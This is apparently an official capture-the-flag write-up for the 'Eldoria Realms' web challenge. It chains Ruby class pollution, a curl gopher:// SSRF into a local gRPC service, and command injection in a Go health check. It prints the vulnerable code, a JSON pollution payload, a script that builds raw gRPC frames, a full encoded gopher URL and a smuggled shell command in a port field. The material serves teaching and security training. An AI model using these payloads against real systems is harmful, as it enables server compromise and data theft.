


        <font size="10">Eldoria Realms</font>

09<sup>th</sup> March 2025

​Prepared By: 0x3d

​Challenge Author(s): 0x3d

​Difficulty: <font color=orange>Medium</font>

​Classification: Official

# [Synopsis](#synopsis)

- Ruby class pollution => Curl gopher SSRF => GRPC protocol => Command injection

## Description

* A portal that allows players of Eldoria to transport between realms, take on quests, and manage their stats. See if it's possible to break out of the realm to gather more info on Malakar's spells inner workings.

## Skills Required

- Understanding of Ruby and it's class system
- Understanding of Golang
- Fundamental knowledge of web vulnurabilities
- Good understanding of TCP
- Basic understanding of GRPC

## Skills Learned

- Exploiting an unsafe recursive merge function to pollute variables in Ryby's memory
- Abusing curl's gopher protocol to send an arbitrary GRPC packet
- Causing RCE through command injection in a GRPC service

## Application Overview


We see an application that is used for a number of functionalities related to managing an Eldoria player profile. Upon visiting the index page we observe a section used for displaying the players status, a section for "merging the fates" of two players (current on and one provided as json) and last but not least a section for displaying the current player's inventory.


Moving on to the quests page we are met with all the available quests, their description and their reward upon completion.


On the store page we see all available items for sale and their price.


The fellowship page reveals info about the current players class and roles.


On the live updates page we can press the button to retrieve live updates coming to this realm directly from Helios.


On the advanced page we have two sections, one use to summon a message from Helios and on used to establish a connection to the current realm "http://eldoria-realm.htb".

## Ruby class pollution via recursive merge

The code below (abridged for clarity) shows how the server merges the user-supplied JSON with the existing player object:

```ruby
class Adventurer
	@@realm_url = "http://eldoria-realm.htb"

	attr_accessor :name, :age, :attributes

	def self.realm_url
		@@realm_url
	end

	def initialize(name:, age:, attributes:)
		@name = name
		@age = age
		@attributes = attributes
	end

	def merge_with(additional)
		recursive_merge(self, additional)
	end

	private

	def recursive_merge(original, additional, current_obj = original)
    additional.each do |key, value|
      if value.is_a?(Hash)
        if current_obj.respond_to?(key)
          next_obj = current_obj.public_send(key)
          recursive_merge(original, value, next_obj)
        else
          new_object = Object.new
          current_obj.instance_variable_set("@#{key}", new_object)
          current_obj.singleton_class.attr_accessor key
        end
      else
        current_obj.instance_variable_set("@#{key}", value)
        current_obj.singleton_class.attr_accessor key
      end
    end
    original
  end
end
```

#### What is class pollution in Ruby?

Ruby is heavily class-based. When you call `object.singleton_class`, it creates an implicit, per-object class. But if your code recurses in a way that touches the underlying parent classes—especially by referencing something like `superclass`—it’s possible to “climb up” the inheritance chain. Attackers can overwrite class-level or even module-level variables.

In this application, `merge_with` uses `recursive_merge` and is used at `/merge-fates` with user provided JSON data as input.

```ruby
post "/merge-fates" do
    content_type :json
    json_input = JSON.parse(request.body.read)
    random_attributes = {
        "class" => ["Warrior", "Mage", "Rogue", "Cleric"].sample,
        "guild" => ["The Unbound", "Order of the Phoenix", "The Fallen", "Guardians of the Realm"].sample,
        "location" => {
            "realm" => "Eldoria",
            "zone" => ["Twilight Fields", "Shadow Woods", "Crystal Caverns", "Flaming Peaks"].sample
        },
        "inventory" => []
    }

    $player = Player.new(
        name: "Valiant Hero",
        age: 21,
        attributes: random_attributes
    )

    $player.merge_with(json_input)
    { 
        status: "Fates merged", 
        player: { 
            name: $player.name, 
            age: $player.age, 
            attributes: $player.attributes 
        } 
    }.to_json
end
```

Crucially, `recursive_merge` will *create* new instance variables (or nested objects) whenever a key doesn’t exist. It never restricts which keys can be merged. By supplying:

```json
{
  "class": {
    "superclass": {
      "realm_url": "our_url"
    }
  }
}
```

We effectively climb: `player -> (player's) class -> (its) superclass -> realm_url`. Once we overwrite `@@realm_url` in `Adventurer`, every call to `Adventurer.realm_url` returns our malicious string.

Reference: [Doyensec’s “Class Pollution in Ruby” blog post](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html) details how inheritance in Ruby can be leveraged to overwrite class variables if the developer’s code recursively merges user-supplied hashes. The gist is that Ruby’s reflection capabilities (`respond_to?`, `public_send`) allow hooking into the class hierarchy. The article also shows how nested hash merges can inadvertently manipulate top-level objects like `Object` or any of its ancestors.

## Curl Gopher SSRF leads to smuggling of GRPC packet

Once `Adventurer.realm_url` is overwritten, calling `/connect-realm` triggers a call to `curl`:

```ruby
get "/connect-realm" do
    content_type :json
    if Adventurer.respond_to?(:realm_url)
        realm_url = Adventurer.realm_url
        begin
            uri = URI.parse(realm_url)
            stdout, stderr, status = Open3.capture3("curl", "-o", "/dev/null", "-w", "%{http_code}", uri)
            { status: "HTTP request made", realm_url: realm_url, response_body: stdout }.to_json
        rescue URI::InvalidURIError => e
            { status: "Invalid URL: #{e.message}", realm_url: realm_url }.to_json
        end
    else
        { status: "Failed to access realm URL" }.to_json
    end
end
```

From the `Dockerfile` we derive that version `7.70.0` is used, which is vulnerable to cross protocol switching using the `gopher://` uri scheme.

```Dockerfile
# Install curl with shared library support
RUN wget https://curl.haxx.se/download/curl-7.70.0.tar.gz && \
    tar xfz curl-7.70.0.tar.gz && \
    cd curl-7.70.0/ && \
    ./configure --with-ssl --enable-shared && \
    make -j16 && \
    make install && \
    ldconfig
```

By setting `realm_url` to a `gopher://` link, we make cURL connect raw TCP to `127.0.0.1:50051`. cURL doesn't parse it as HTTP; it sees it as “raw bytes over the gopher protocol,” which we can manipulate to embed an entire plaitext gRPC packet plus data frames.

#### Why gopher://?

Historically, cURL supports multiple protocols (including `gopher://`). Gopher is an old protocol that sends data mostly in a raw manner. Attackers can exploit this to talk directly to a port with custom binary data—like a stream for gRPC. This only works for protocols that don't have aditional hanshakes on top of TCP.

#### Constructing Raw gRPC Packets

gRPC runs over `HTTP/2`, which uses binary frames. Tools like `grpcurl` help you see the handshake or frames. Alternatively, you can sniff traffic with `tcpdump` or `Wireshark`. The frames typically look like:

- Connection Preface (e.g., `PRI * HTTP/2.0\r\n\r\nSM\r\n\r\n`)
- Initial SETTINGS frame
- HEADERS + DATA frames with gRPC method and message payload

## Command Injection in Go

```go
func (s *server) CheckHealth(ctx context.Context, req *pb.HealthCheckRequest) (*pb.HealthCheckResponse, error) {
	ip := req.Ip
	port := req.Port

	if ip == "" {
		ip = s.ip
	}
	if port == "" {
		port = s.port
	}

	err := healthCheck(ip, port)
	if err != nil {
		return &pb.HealthCheckResponse{Status: "unhealthy"}, nil
	}
	return &pb.HealthCheckResponse{Status: "healthy"}, nil
}

func healthCheck(ip string, port string) error {
	cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
	output, err := cmd.CombinedOutput()
	if err != nil {
		log.Printf("Health check failed: %v, output: %s", err, output)
		return fmt.Errorf("health check failed: %v", err)
	}

	log.Printf("Health check succeeded: output: %s", output)
	return nil
}
```

The final step is possible because CheckHealth calls:

```go
cmd := exec.Command("sh", "-c", "nc -zv " + ip + " " + port)
```

Due to an unsanitized command call, by setting port to `1337; cp /flag* /app/eldoria_api/public/flag.txt`, the full shell command becomes:

```sh
sh -c "nc -zv 127.0.0.1 1337; cp /flag* /app/eldoria_api/public/flag.txt"
```

Breaking it down:

 - `nc -zv 127.0.0.1 1337` attempts a port check (harmless).
 - The `;` in the shell command then executes `cp /flag* ...` to place the flag in a publicly accessible file.

Once that’s done, we can retrieve the flag at `http://127.0.0.1:1337/flag.txt`.

Why is this injection possible? Because the Go code blindly concatenates unvalidated user input (`port`) into a shell command. This is exactly the classic `command injection pitfall`. Properly using `exec.Command("nc", "-zv", ip, port)` (passing arguments in a safe, structured way) wpuld have avoided the injection.

In order to cause the injection we need to internally reach the GRPC service through the cURL SSRF. To do that we will expose the local GRPC service and send packets which we will capture and convert to one single packet payload that can be sent through cURL on the remote target,

```
grpcurl -plaintext -proto live_data.proto \
   -d '{"ip": "127.0.0.1", "port": "1337; cp /flag* /app/eldoria_api/public/flag.txt"}' \
   localhost:50051 live.LiveDataService/CheckHealth
```



After capturing the packets send by `grpcurl` we can take the data from each GRPC section and join them into one packet using the following script taken from [https://bkubiak.github.io/grpc-raw-requests/](https://bkubiak.github.io/grpc-raw-requests/).

```python
def grpc_packet():
	# sniffed using tcpdump https://bkubiak.github.io/grpc-raw-requests/
	# grpcurl -plaintext -proto live_data.proto -d '{"ip": "127.0.0.1", "port": "1337; cp /flag* /app/eldoria_api/public/flag.txt"}' localhost:50051 live.LiveDataService/CheckHealth
	magic = "505249202a20485454502f322e300d0a0d0a534d0d0a0d0a"
	settings = "000000040100000000"
	headers = "00007c010400000001838645986283772af9cddcb7c691ee2d9dcc42b17a7293ae328e84cf418ba0e41d139d09b8d800d87f5f8b1d75d0620d263d4c4d65647aa59acac96d9431217bad1da6a2453faa8ea772d8831ea51054ff6a4d65645a63b015db75707f40027465864d833505b11f408e9acac8b0c842d6958b510f21aa9b839bd9ab"
	data = "000042000100000001000000003d0a093132372e302e302e311230313333373b206370202f666c61672a202f6170702f656c646f7269615f6170692f7075626c69632f666c61672e747874"

	packet = magic + settings + headers + data

	encoded_packet = ""
	for i in range(int(len(packet) / 2)):
		encoded_packet += "%" + packet[2*i:2*(i+1)]

	return f"gopher://127.0.0.1:50051/_{encoded_packet}"

print(grpc_packet())
```

Running it will produce a URL like the following:

```
gopher://127.0.0.1:50051/_%50%52%49%20%2a%20%48%54%54%50%2f%32%2e%30%0d%0a%0d%0a%53%4d%0d%0a%0d%0a%00%00%00%04%01%00%00%00%00%00%00%7c%01%04%00%00%00%01%83%86%45%98%62%83%77%2a%f9%cd%dc%b7%c6%91%ee%2d%9d%cc%42%b1%7a%72%93%ae%32%8e%84%cf%41%8b%a0%e4%1d%13%9d%09%b8%d8%00%d8%7f%5f%8b%1d%75%d0%62%0d%26%3d%4c%4d%65%64%7a%a5%9a%ca%c9%6d%94%31%21%7b%ad%1d%a6%a2%45%3f%aa%8e%a7%72%d8%83%1e%a5%10%54%ff%6a%4d%65%64%5a%63%b0%15%db%75%70%7f%40%02%74%65%86%4d%83%35%05%b1%1f%40%8e%9a%ca%c8%b0%c8%42%d6%95%8b%51%0f%21%aa%9b%83%9b%d9%ab%00%00%42%00%01%00%00%00%01%00%00%00%00%3d%0a%09%31%32%37%2e%30%2e%30%2e%31%12%30%31%33%33%37%3b%20%63%70%20%2f%66%6c%61%67%2a%20%2f%61%70%70%2f%65%6c%64%6f%72%69%61%5f%61%70%69%2f%70%75%62%6c%69%63%2f%66%6c%61%67%2e%74%78%74
```

## Exploit Overview

1. Pollute `Adventurer.realm_url`

    POST `/merge-fates` with: 

    ```json
    {
    "class": {
        "superclass": {
        "realm_url": "gopher://127.0.0.1:50051/_%50%52%49%20%2a%20%48%54%54%50%2f%32%2e%30%0d%0a%0d%0a%53%4d%0d%0a%0d%0a%00%00%00%04%01%00%00%00%00%00%00%7c%01%04%00%00%00%01%83%86%45%98%62%83%77%2a%f9%cd%dc%b7%c6%91%ee%2d%9d%cc%42%b1%7a%72%93%ae%32%8e%84%cf%41%8b%a0%e4%1d%13%9d%09%b8%d8%00%d8%7f%5f%8b%1d%75%d0%62%0d%26%3d%4c%4d%65%64%7a%a5%9a%ca%c9%6d%94%31%21%7b%ad%1d%a6%a2%45%3f%aa%8e%a7%72%d8%83%1e%a5%10%54%ff%6a%4d%65%64%5a%63%b0%15%db%75%70%7f%40%02%74%65%86%4d%83%35%05%b1%1f%40%8e%9a%ca%c8%b0%c8%42%d6%95%8b%51%0f%21%aa%9b%83%9b%d9%ab%00%00%42%00%01%00%00%00%01%00%00%00%00%3d%0a%09%31%32%37%2e%30%2e%30%2e%31%12%30%31%33%33%37%3b%20%63%70%20%2f%66%6c%61%67%2a%20%2f%61%70%70%2f%65%6c%64%6f%72%69%61%5f%61%70%69%2f%70%75%62%6c%69%63%2f%66%6c%61%67%2e%74%78%74"
        }
    }
    }
    ```

2. Trigger SSRF

    `GET /connect-realm` => `curl -o /dev/null -w "%{http_code}" gopher://127.0.0.1:50051/_<RAW_GRPC_FRAMES>`

3. Send Raw gRPC "CheckHealth"

    The raw frames instruct the server to run `CheckHealth` with `ip = "127.0.0.1"` and `port = "1337; cp /flag* /app/eldoria_api/public/flag.txt"`.

4. Command Injection

    Go’s `healthCheck` spawns `nc -zv 127.0.0.1 1337; cp /flag* /app/eldoria_api/public/flag.txt`.

5. Flag Retrieval

    Finally, `GET /flag.txt` returns the copied flag.

    
